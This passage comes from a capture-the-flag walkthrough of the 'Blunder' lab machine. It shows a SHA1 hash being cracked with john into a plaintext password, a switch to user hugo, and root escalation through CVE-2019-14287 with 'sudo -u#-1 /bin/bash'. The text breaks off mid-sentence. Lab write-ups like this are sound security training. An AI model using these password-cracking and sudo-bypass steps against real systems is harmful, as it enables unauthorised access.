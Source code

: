 ```php 
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
> The file users.php was found in ```/var/www/bludit-3.10.0a/bl-content/databases```

The hash *faca404fd5c0a31cf1897b823c695c85cffeb98d* was cracked into ***Password120***, using *john*.

```
[pwnd_root@manjaro Blunder]$ john --wordlist=rockyou.txt hash --format=raw-sha1  
Using default input encoding: UTF-8 
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x]) 
Warning: no OpenMP support for this hash type, consider --fork=4 
Press 'q' or Ctrl-C to abort, almost any other key for status 
Warning: Only 1 candidate left, minimum 4 needed for performance. 
Password120      (?) 
1g 0:00:00:01 DONE (2020-07-09 20:40) 0.8000g/s 11474Kp/s 11474Kc/s 11474KC/s Password120 
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably 
Session completed
```
The current session was switched to user *hugo* using the **su** command as ```su hugo``` and the user flag was read.

![User Shell](/assets/img/posts/blunder/user.png)

## Root Access
Checking for the *sudo* permission of *hugo* revealed that the user can run the binary */bin/bash* as any user, *except root*.
```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
```
hugo@blunder:~$ sudo -V
sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
However there is a workaround, specified on [CVE-2019-14287](https://access.redhat.com/security/cve/cve-2019-14287),
with which the binary can be run as *root*. The command used was ```sudo -u#-1 /bin/bash```, which resulted in a 